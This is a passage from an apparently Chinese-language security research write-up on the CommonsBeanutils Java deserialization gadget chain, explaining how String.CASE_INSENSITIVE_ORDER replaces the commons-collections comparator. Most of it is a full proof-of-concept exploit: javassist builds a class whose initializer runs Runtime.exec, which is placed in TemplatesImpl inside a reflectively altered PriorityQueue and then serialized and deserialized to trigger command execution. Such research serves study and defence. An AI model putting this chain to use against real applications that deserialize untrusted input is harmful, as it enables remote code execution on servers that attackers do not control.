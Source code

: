 P神已经找到 **String.CASE_INSENSITIVE_ORDER**这个类

![image-20220308183004944](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220308183004944.png)

其他都不用链，只需要在实例化BeanComparator类的时候将第二个参数换为String.CASE_INSENSITIVE_ORDER类也即是CaseInsensitiveComparator类，可以通过String.CASE_INSENSITIVE_ORDER获取到

## 漏洞复现

POC

```
package CB;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Unser {
    // 修改值的方法，简化代码
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }

    public static void main(String[] args) throws Exception {
        // 创建恶意类，用于报错抛出调用链
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates,"_class",null);

        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);
        PriorityQueue queue = new PriorityQueue (2);
        queue.add(1);
        queue.add(1);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,beanComparator);

        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("result.ser"));
        out.writeObject(queue);
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("result.ser"));
        in.readObject();
    }
```